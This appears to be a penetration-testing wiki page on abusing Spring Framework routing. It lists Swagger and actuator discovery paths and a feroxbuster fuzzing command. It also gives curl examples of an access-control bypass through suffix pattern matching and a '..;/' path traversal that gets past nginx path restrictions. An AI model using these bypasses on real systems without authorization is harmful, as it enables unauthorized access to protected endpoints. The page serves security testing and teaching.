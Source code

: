 # Spring Routing Abuse

## **Theory**

Routing misconfigurations in the Spring Framework can pose significant security risks, potentially leading to protected URL bypass, path traversal, or information leaks.&#x20;

## **Practice**

### Exposing routes

Exposing the relevant interfaces and parameter information of a Spring application is not a vulnerability, but it can help to understand an application. Moreover, it can be used while checking for access control vulnerabilities, etc.

{% tabs %}
{% tab title="swagger" %}
Check the following routes to see if an application provides path and parameter information:

```
/v2/api-docs
/swagger-ui.html
/swagger
/api-docs
/api.html
/swagger-ui
/swagger/codes
/api/index.html
/api/v2/api-docs
/v2/swagger.json
/swagger-ui/html
/distv2/index.html
/swagger/index.html
/sw/swagger-ui.html
/api/swagger-ui.html
/static/swagger.json
/user/swagger-ui.html
/swagger-ui/index.html
/swagger-dubbo/api-docs
/template/swagger-ui.html
/swagger/static/index.html
/dubbo-provider/distv2/index.html
/spring-security-rest/api/swagger-ui.html
/spring-security-oauth-resource/swagger-ui.html
```
{% endtab %}

{% tab title="actuators" %}
We may use the [spring-boot.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) wordlist from SecList to fuzz actuators URLs

```bash
feroxbuster -u http://<TARGET>/ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit" %}
Spring Framework **versions prior to 5.3** have a setting called `useSuffixPatternMatch`. It enable suffix pattern matching and it's set to true by default.

When enabled, methods mapped to `/restrictedURL` would also match `/restrictedURL[.].*`. So this configuration has a potential to bypass URL filters and allow access to restricted areas.

```bash
#Without bypass
$ curl http://<TARGET>/adminURL
403 Forbidden

#With bypass
$ curl http://<TARGET>/adminURL.V4RESK
200 OK
```
{% endtab %}
{% endtabs %}

### Path traversal

{% tabs %}
{% tab title="Exploit" %}
Spring Boot > 2.2.6 treats `https://website.com/allowed/..;/internal` same as `https://website.com/allowed/../internal`.

This can lead to inconsistency between Spring and middleware. For instance, if an application is deployed behind nginx, you can bypass restrictions on allowed paths. Assume nginx forward all request to `/allowed/` to an application and deny other requests. In this case, a request to `/allowed/../internal` will be blocked, however, `/allowed/..;/internal` is not - nginx will pass it as is to an application and it will hit `/internal`.

```bash
$ curl http://<TARGET>/allower/..;/internal
```
{% endtab %}
{% endtabs %}
